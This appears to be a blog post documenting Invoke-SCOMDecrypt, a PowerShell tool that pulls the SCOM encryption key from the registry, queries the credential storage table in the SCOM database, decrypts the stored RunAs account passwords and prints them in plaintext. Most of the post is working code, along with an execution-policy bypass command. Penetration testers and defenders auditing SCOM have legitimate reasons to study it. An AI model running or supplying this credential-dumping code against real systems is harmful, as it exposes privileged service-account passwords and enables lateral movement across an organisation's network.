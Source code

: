 ```yaml
---
title: "Dectypting SCOM Credentials from the Database"
date: 2022-09-01 12:00:00 -0000
permalink: SCOMDecrypt
author: aleks
tags: SCOM
---
```

# Invoke-SCOMDecrypt

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...

## How the script works ##

# [Full code is available here](https://raw.githubusercontent.com/AleksTica/Invoke-SCOMDecrypt/main/Invoke-SCOMDecrypt.ps1)

Pre-requisite check to see if SCOM is installed
```ps1
	
	[string]$installDirectory = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\System Center\2010\Common\Setup").InstallDirectory
	if (Test-Path $installDirectory)
	{
		$Full_Path = [System.IO.Path]::GetFullPath($installDirectory);
		[string]$PATH1 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.Mom.Sdk.SecureStorageManager.dll")
		[System.Reflection.Assembly]::LoadFile($PATH1) | Out-Null
		[string]$PATH2 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.EnterpriseManagement.DataAccessLayer.dll")
		[System.Reflection.Assembly]::LoadFile($PATH2) | Out-Null
	}
	else
	{
		Write-Host "[Critical Error] Unable to find installation directory of SCOM" -ForegroundColor Yellow
		return
	}
```
Get SQL information from the registry

```ps1
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\Database" -erroraction stop
		$server = $reg.DatabaseServerName
		$database = $reg.DatabaseName
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to detect SQL server"
		return
	}
	
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\MOMBins" -erroraction stop
		$key = $reg.Value1
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to find key"
		return
	}
```
Boiler plate code to connect to the Database and get the content 

```ps1
	$sqlCommand = "SELECT UserName, Data, Domain FROM dbo.CredentialManagerSecureStorage;"
	$connectionString = "Server=$server;Database=$database;Trusted_Connection=True;"
	$connection = new-object system.data.SqlClient.SQLConnection($connectionString)
	$command = new-object system.data.sqlclient.sqlcommand($sqlCommand, $connection)
	$connection.Open()
	$adapter = New-Object System.Data.sqlclient.sqlDataAdapter $command
	$dataset = New-Object System.Data.DataSet
	$adapter.Fill($dataSet) | Out-Null
	$connection.Close()
```
Now the interesting part to decrypt conent from Microsoft.EnterpriseManagement.Security.SecureStorageManager

```ps1
	for ($i = 0; $i -lt $dataset.Tables[0].Rows.Count; $i++)
	{
		if ($dataset.Tables[0].Rows[$i].Data -ne [System.DBNull]::Value -and $dataset.Tables[0].Rows[$i].Username -ne [System.DBNull]::Value)
		{
			$user = $dataset.Tables[0].Rows[$i].Username
			$passw = [System.Text.Encoding]::UTF8.GetString($scom.Decrypt($dataset.Tables[0].Rows[$i].Data))
			
			# Cleans up the spaces in the password
			$truePass = ""
			for ($j = 0; $j -lt $passw.Length; $j++)
			{
				if ($j % 2 -eq 0)
				{
					$truePass += $passw[$j]
				}
			}
			
			if ($domain -notlike "")
			{
				Write-Host "Username: $domain\$user"
				Write-Host "Password: $truePass"
			}
			else
			{
				Write-Host "Username: $user"
				Write-Host "Password: $truePass"
			}
			Write-Host " "
		}
	}
```

